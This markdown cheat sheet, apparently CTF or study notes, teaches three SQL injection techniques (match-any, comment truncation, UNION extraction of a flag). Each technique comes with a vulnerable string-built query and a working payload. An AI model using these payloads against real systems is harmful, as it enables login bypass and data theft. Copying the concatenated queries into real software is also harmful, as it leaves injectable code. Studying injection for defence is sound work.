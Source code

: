 
# Match Any - Single Record
- Used when you know the specific record you want to return, but dont know all the needed input params
- Used if you can't change the first portion of the query

### Example 
```
// What can you pass in to {passwordVariable} so that the query evaluates to true and the record is returned?

query = f"SELECT username, created_at FROM users WHERE username='hardCodedUserYouCantChange' and password = '{passwordVariable}'"
```

- Payload: `' or 'a'='a`
  - The first single quote will escape
  - The ` or 'a'='a` is the 'Match Any' and will always return true so it retrieves the record
  - Leave off the last single quote so it escapes

```
query = f"SELECT username, created_at FROM users WHERE username='hardCodedUserYouCantChange' and password = '' or 'a'='a'"
```

# Return Early - Single Record
- Used when you want to ignore everything after your user input
- The double dash  `'--;`  starts a comment in SQL, so none of the code following the comment will execute

### Example

```
// What can you pass in to {username} so it ignores the rest of the query after it?

query = "SELECT username, public_btc_address, private_btc_key, balance FROM users WHERE username='" + username + "' AND current_timestamp = impossibleTimestampToMatch';"
```
  - Payload: `username=jim404'--;`

# Union - Single Record
- Use this when you want to select records from a different table.
- UNION will select the records from the other table and include them in the original selects results.
- In the union you need to select the same rows and data types.
  - Look at the source to see if you can just select nulls in your union, or if you have to select valid values.

### Example
DB Fiddle Playground: https://www.db-fiddle.com/f/kUwEsz6GuJpMaSps6hqeAr/2
```
// What can we pass in to {username} so that the first select doesnt find any results, but a result is returned from the table we want?

query = f"SELECT username, created_at FROM users WHERE username='{username}'"
```
- Payload: `' UNION select flag, CURRENT_TIMESTAMP from flags where 'a'='a`
  - The first single quote escapes and wont match any users
  - The union must select both a string and a timestamp data type
  - The union finds the record from the flags table and combines it with the empty result from the first select
  - No closing single quote in the payload allows the query to be valid

```
query = f"SELECT username, created_at FROM users WHERE username='' UNION select flag, CURRENT_TIMESTAMP from flags where 'a'='a'"
```